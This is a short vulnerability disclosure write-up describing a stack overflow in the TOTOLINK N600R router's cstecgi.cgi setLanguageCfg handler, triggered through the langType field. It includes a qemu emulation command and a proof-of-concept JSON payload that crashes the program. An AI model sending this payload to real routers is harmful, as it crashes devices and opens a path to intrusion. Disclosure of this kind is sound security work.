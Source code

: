 # TOTOLINK-N600R-setLanguageCfg-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a StackOverflow vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x4159F8 contains a stack overflow vulnerability.

The stack overflow can be triggered by the langType key value, which leads to a sprintf overflow.

![image-20241216165906585](https://gitee.com/xyqer/pic/raw/master/202412191528465.png)

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=300 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"topicurl":"setLanguageCfg","langType":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

## Attack result

![image-20241216170552877](https://gitee.com/xyqer/pic/raw/master/202412191529986.png)

﻿You can see that Segmentation fault. If needed, we can overflow more. This overflow does not have a length limit. When using a longer overflow, you only need to modify the langType key value and the CONTENT_LENGTH size.